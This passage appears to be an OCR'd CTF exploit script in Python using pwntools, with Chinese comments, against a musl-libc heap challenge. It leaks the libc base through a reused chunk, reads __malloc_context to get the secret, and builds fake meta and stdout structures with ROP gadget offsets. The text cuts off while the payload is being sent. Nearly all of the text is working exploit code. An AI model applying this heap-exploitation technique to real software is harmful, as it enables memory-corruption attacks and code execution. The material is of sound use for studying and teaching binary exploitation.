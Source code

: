 ```python
        gdb.attach(p,'b %s'%b)

def cmd(num):
    sla('>>',num)

def add(idx , size , content = 'a\n'):
    cmd(1)
    sla('idx' , idx)
    sla('size' , size)
    sa('Contnet?\n' , content)

def delete(idx ):
    cmd(2)
    sla('idx' , idx)

def show(idx ):
    cmd(3)
    sla('idx' , idx)

def attack():
    
    # 先把这个大小 chunk 全部申请,不然不会启用 free 掉的 chunk
    for i in range(15):
        add(i,0xc)

    # 把开头的 chunk free 掉
    # 此时 avail_mask 为 0，free_mask 中有两个 chunk
    delete(0)

    # 再申请回来，只需要把 0x4 字节的 chunk 头填掉就可以泄露，注意此时下一个 chunk 的头已经烂掉了
    add(0 ,0 , 'a'*0xf + '\n')
    show(0)

    libc.address = l64() - 0x298d50
    libc_base = libc.address
    __malloc_context = libc.sym["__malloc_context"]
    
    # 接下来可以直接写管理块的 data 域实现任意地址读
    delete(2)
    add(2 , 0 , 'a'*0x10 + p64(__malloc_context) + '\n')
    show(3)
    ru('t: ')
    secret = uu64(8)

    fake_meta = libc_base + 0x28d000+0x1000+8
    fake_mem = libc_base + 0x298df0-0x20
    _stdout_used = libc_base+0x295450
    fake_stdout_ptr = libc_base + 0x28d000+0x50
    rop_addr = libc_base + 0x28d000+0x100
    flag_addr = rop_addr - 0x100 + 0x20

    magic_gadget = libc_base + 0x000000000004a5ae
    p_rdi_rax = libc_base + 0x000000000007144e
    p_rsi = libc_base + 0x000000000001b27a
    p_rdx = libc_base + 0x0000000000009328
    sys_call = libc_base + 0x0000000000023711
    ret = libc_base + 0x000000000001689c

    delete(5)

    payload = p64(fake_meta) + p64(0) + p64(fake_mem + 0x20)
    add(5,0,payload + '\n')

```